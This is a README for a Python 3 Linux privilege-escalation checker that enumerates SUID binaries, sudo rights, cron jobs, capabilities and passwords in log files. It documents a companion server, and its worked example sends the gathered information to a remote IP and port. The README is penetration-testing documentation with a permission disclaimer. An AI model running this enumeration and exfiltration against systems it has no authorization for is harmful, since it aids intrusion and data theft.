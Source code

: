 # A Linux Privilege Escalation Checker for Python 3.3+

## Summary
This script is intended to be executed locally on a Linux machine, with a Python version of 3.3 or higher, to enumerate basic system info and search for common privilege escalation vectors.
An older version of this script used to run on Python 2.7 too, if you need that script check out <https://github.com/oschoudhury/linuxprivchecker/tree/fdee66c>.
Python 2.7 support is dropped in favor of features in Python 3 that reduce erronous system commands.

## Warning and Disclaimer
This script comes as-is with no promise of functionality or accuracy.  Only use this script after you understand what every line in the script does.  Only run this script on machines you have permission to access, and where you have permission to access any account, files and folders for that particular machine.  Check that you are compliant with the laws and regulations that apply in your place of residence, before attempting to run this script.  This script is noisy by design and can therefore raise alarm bells. If you don't want this, don't run it.

## Usage
This script will enumerate the following information for possible privilege escalation avenues:
* Basic system information as kernel version, linux distribution and hostname.
* Network information as IP addresses, routes, open connections and ARP caches.
* Current mounts and entries in /etc/fstab
* List of cron jobs and the ability to edit them.
* Scheduled tasks from systemd and possible access to journalctl.
* User, group and sudo information
* World-writeable directories, SUID binaries and files with linux capabilities
* Password information in log files
* Accessibility to linux mail
* Information from the package manager and current processes
* Docker/lxc information

`linuxprivchecker.py` can be run with the following arguments
* `-h`, `--help`, should be self-explanatory.
* `-c`, `--color` for using colors in a terminal environment for easier navigation through the output.
* `-o filename`, `--outputfile filename` for storing the results in a local file.
* `-s IP:port`, `--send IP:port` to exfiltrate the information to a different machine, preferably running `linuxprivserver.py`
* `-q`, `--quiet` to not have the screen fill up with data. Useful in combination with `-o` and/or `-s`

The `linuxprivchecker.py` will produce from anywhere between a few 100 lines of output and up to 100,000 lines or even more, depending on the situation. Interpretation of the output is left as an exercise for the reader.

### The `linuxprivserver.py`, data exfiltration made easy
`linuxprivchecker.py` can be used in combination with `linuxprivserver.py` to directly exfiltration any gathered information to another machine.  For this, run `linuxprivserver.py` on the receiving end and additionally you can provide the following options:

* `--ip IP` to set up a specific listening IP address, defaults to all possible IP addresses
* `--port PortNumber` to set up a port to listen on, defaults to 8080.
* `--outfile Filename` to save the received output to a file.
* `--quiet` to not output anything on the screen, useful in combination with `--outfile`.

Next run `linuxprivchecker.py` and make sure that `-s` is provided as argument with the correct IP and port information.

An example would be to locally run:
```python
python linuxprivserver.py --outfile priv_info.txt
```
and on the remote system to execute (assuming local IP is 192.168.1.100):
```python
python linuxprivchecker.py -s 192.168.1.100:8080 -c -q
```

### About colorized output
The option `--color` in the `linuxprivchecker.py` script will propagate the terminal color commands to the output file and to the server (and any output file specified here).  This means that when you open the file in an editor you might see some weird characters.  This is left intentionally in place such that it is easier to browse through with commands as `less` and `cat`. If you want to remove the color formatting, run `cat colorized_output.txt > plain_output.txt` or simply do not provide the `--color` option to `linuxprivchecker.py`.

## Contribution
List of contributors: imdos, brax.

Compared to the original version, this script is refactored in a form that should make it easier to add additional commands.  Feel free to raise an issue or even better (as I do not pretend to know every nook and cranny of Linux) make a pull request.  Please see the docstring of `execCmd` for the syntax rules.

In the original version there was also a small list of checking for vulnerable versions of Linux kernels and programs. This is removed in this version, as such a checklist can produce many false positives due to back-ported updates and quickly becomes outdated. I might consider to re-include a checklist against the latest non-vulnerable versions of programs, but it is currently not on the roadmap.

## Modification, Distribution, and Attribution
The original `linuxprivchecker.py` file was produced by Mike Czumak (T_v3rn1x) -- @SecuritySift at <https://github.com/sleventyeleven/linuxprivchecker/> with the notice in the following paragraph. This message still holds for `linuxprivchecker.py` in its current form and also holds for `linuxprivserver.py`.

You are free to modify and/or distribute this script as you wish.  I only ask that you maintain original author attribution and not attempt to sell it or incorporate it into any commercial offering (as if it's worth anything anyway :)

